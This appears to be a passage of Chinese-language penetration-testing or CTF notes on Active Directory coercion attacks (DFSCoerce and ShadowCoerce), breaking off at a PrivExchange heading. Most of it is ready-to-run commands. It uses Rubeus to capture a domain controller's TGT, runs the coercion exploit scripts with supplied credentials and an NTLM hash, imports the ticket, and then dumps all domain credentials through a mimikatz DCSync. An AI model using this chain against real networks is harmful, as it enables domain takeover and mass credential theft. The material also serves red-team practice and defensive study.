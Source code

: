 #### DFSCoerce

**条件：**

- 域内启用 MS-DFSNM 协议
- 拥有一个域用户凭据信息
- 只对域控有效

管理员权限运行Rubeus

```bash
Rubeus.exe monitor /interval:1 /nowrap /targetuser:DC01$
```

使用 DFSCoerce 漏洞利用工具，触发辅域控进行强制验证

[dfscoerce.py](F:\ctfTools\DFSCoerce\dfscoerce.py)

```bash
python dfscoerce.py -u win19$ -hashes "aad3b435b51404eeaad3b435b51404ee:21b11500d5834a2b9b3373564a0565f6" -d xiaorang.lab win19 172.22.4.7
```

获取`DC01$` 的 TGT

![202308091657142](F:\LocalCTF\pictures\202308091657142.png)

导入 TGT 然后 DCSync

```bash
Rubeus.exe ptt /ticket:xxx
mimikatz.exe "lsadump::dcsync /all /csv"
```

#### ShadowCoerce

**条件**

- 目标服务器安装了文件服务器VSS代理服务
- 开启MS-FSRVP协议
- 拥有一个域用户凭据信息

管理员权限运行Rubeus

```bash
Rubeus.exe monitor /interval:1 /nowrap /targetuser:DC01$
```

使用 shadowcoerce 漏洞利用工具，触发强制验证

```bash
python shadowcoerce.py -u spiderman -p 123.com -d hack.lab 20.20.20.100 20.20.20.6
```

导入 TGT 然后 DCSync

```bash
Rubeus.exe ptt /ticket:xxx
mimikatz.exe "lsadump::dcsync /all /csv"
```

#### PrivExchange
